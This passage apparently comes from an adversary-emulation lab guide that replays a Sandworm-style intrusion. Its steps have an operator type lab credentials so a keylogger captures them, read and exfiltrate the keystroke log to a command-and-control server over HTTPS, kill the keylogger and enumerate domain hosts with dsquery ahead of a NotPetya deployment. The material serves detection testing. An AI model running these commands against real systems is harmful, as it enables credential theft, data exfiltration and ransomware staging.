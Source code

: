 ```
IP Address:  10.0.1.4
Username:    patreides
Password:    ebqMB7DmM81QVUqpf7XI
```

You must type this data manually to exercise the keylogger (caveat: if you fail to enter the password on the first try, just copy/paste it).

Give arrakis a minute to load, then right-click sign-out from the RDP session.

Keep the gammu RDP session open.

:warning: Go back to your control server terminal.

Confirm the keylogger log file exists:

```bash
./evalsC2client.py --set-task Exaramel-Windows "exec-cmd dir C:\\Windows\\System32\\mslog.txt"
```

Confirm the keylogger actually logged keystrokes:

```
./evalsC2client.py --set-task Exaramel-Windows "exec-cmd type C:\\Windows\\System32\\mslog.txt"
```

[Source Code](/Resources/Exaramel-Windows/taskhandler/taskhandler.go#L17)

Exfil the keylog file over the Exaramel-Windows C2 session (HTTPS).

:warning: Exaramel-Windows automatically RC4 encrypts the keylog file before exfiltration.

```bash
# Exaramel for Windows automatically encrypts files before sending them to the C2 server.

./evalsC2client.py --set-task Exaramel-Windows "put-file C:\\Windows\\System32\\mslog.txt"
```

[Source Code](/Resources/Exaramel-Windows/taskhandler/taskhandler.go#L94)

Confirm you uploaded the keylog file; you should see an RC4 encrypted blob.

```
cat files/mslog.txt
```

Terminate the keylogger

```bash
./evalsC2client.py --set-task Exaramel-Windows "exec-cmd taskkill /F /IM mslog.exe"
```

Enumerate all domain hosts (prep for notpetya deployment)

```bash
# Sandworm Team has used a tool to query Active Directory using LDAP, discovering information about computers listed in AD.

./evalsC2client.py --set-task Exaramel-Windows "exec-cmd dsquery.exe computer -s 10.0.1.4 -u patreides -p ebqMB7DmM81QVUqpf7XI"
```
